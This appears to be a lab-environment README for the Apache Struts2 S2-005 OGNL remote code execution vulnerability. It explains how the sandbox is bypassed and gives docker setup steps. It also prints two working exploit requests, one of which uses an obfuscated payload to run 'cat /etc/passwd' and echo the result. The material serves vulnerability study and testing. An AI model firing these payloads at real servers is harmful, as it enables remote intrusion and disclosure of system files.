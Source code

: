 # S2-005 Remote Code Execution Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.0.0 - 2.1.8.1

Details: http://struts.apache.org/docs/s2-005.html

## Reference

Refer 《White hat speaking Web Security》 by Wu Hanqing (Author)

> s2-005 is a vulnerability which originating from S2-003(version: < 2.0.12), This behavior has been filtered in S2-003, but it turned out that the resulting fix based on whitelisting acceptable parameter names closed the vulnerability only partially.

XWork will parse the keys and values of the GET parameter into Java statements using OGNL expressions, such as:

```
user.address.city=Bishkek&user['favoriteDrink']=kumys 
//It will be converted to
action.getUser().getAddress().setCity("Bishkek")  
action.getUser().setFavoriteDrink("kumys")
```

Process follows:

- In S2-003 Use `\u0023` to bypass struts2's filter `#`
- After S2-003 struts2 added security mode (sandbox)
- In S2-005 Use the OGNL expression to close the security mode and bypass again

## Setup

Run the following commands to start the environment

```
docker compose build
docker compose up -d
```

## POC && EXP

### Remote code execution POC (don't have display echo, use `@` instead space)

```
GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
Host: target:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.98 Safari/537.36

```

Some others POC will return 400 in tomcat8.Because the characters `\`, `"` can't be placed directly in the path, we need urlencode it before send.

This POC don't have display, used OGNL's Expression Evaluation:

![](1.jpeg)

`(aaa)(bbb)`, `aaa` is used as the OGNL expression string, and `bbb` is the root object of the expression. Therefore, if we needs to execute code like `aaa`, it needs to be wrapped in quotation marks, and the `bbb` position can directly place the Java statement. `(aaa)(bbb)=true` is actually `aaa=true`.

However, how to understand exactly, it needs further research and to be optimized. Hope someone can write a POC that can display echo.

### Remote code execution POC (have display echo, command need urlencode)

```
POST /example/HelloWorld.action HTTP/1.1
Accept: application/x-shockwave-flash, image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; MAXTHON 2.0)
Host: target:8080
Content-Length: 626
redirect:${%23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27),%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27),%23str%3d%23s.hasNext()?%23s.next():%27%27,%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),%23resp.setCharacterEncoding(%27UTF-8%27),%23resp.getWriter().println(%23str),%23resp.getWriter().flush(),%23resp.getWriter().close()}
```

![](s2-005-3.png)

![](s2-005-4.png)
